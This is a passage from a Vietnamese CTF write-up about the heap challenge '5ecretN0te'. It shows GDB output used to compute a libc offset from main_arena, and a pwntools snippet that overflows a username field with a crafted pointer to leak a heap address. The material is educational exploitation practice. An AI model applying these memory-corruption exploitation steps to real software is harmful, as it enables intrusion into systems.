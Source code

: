 ![main-arena-heap.png](images/main-arena-heap.png)

Ta thấy trong main arena có chứa địa chỉ heap nên ta sẽ tính offset từ libc base tới địa chỉ `0x7fd6a7323b78` như ảnh trên để có thể dùng `show` để leak địa chỉ heap đó ra:

```gdb
gef➤  vmmap
...
0x00000001812000 0x00000001834000 0x00000000000000 rw- [heap]
0x007fd6a6f5f000 0x007fd6a711f000 0x00000000000000 r-x /home/nguyenhuutri/CTF/KCSC/5ecretN0te/libc6_2.23-0ubuntu11.3_amd64.so
0x007fd6a711f000 0x007fd6a731f000 0x000000001c0000 --- /home/nguyenhuutri/CTF/KCSC/5ecretN0te/libc6_2.23-0ubuntu11.3_amd64.so
...

gef➤  p/x 0x7fd6a7323b70 - 0x007fd6a6f5f000
$1 = 0x3c4b70
```

Vậy offset là `0x3c4b70`. Vì page 1 ở trên đã bị xáo trộn nên thôi ta tạo luôn page 2 cho thuận tiện việc ghi và leak:

```python
p.sendlineafter(b'>> ', b'1')
p.sendlineafter(b'username: ', b'A'*0x50 + flat(0x1111111111111111, libc.address + 0x3c4b78))
show(1)
p.recvuntil(b'password')
heap_leak = p.recvline()[:-1].split(b' : ')[1]
heap_leak = heap_leak.ljust(8, b'\x00')
heap_leak = u64(heap_leak)
log.info("Heap leak: " + hex(heap_leak))
```

Chạy lại từ đầu và debug với cái địa chỉ heap leak được:

![leak-heap.png](images/leak-heap.png)
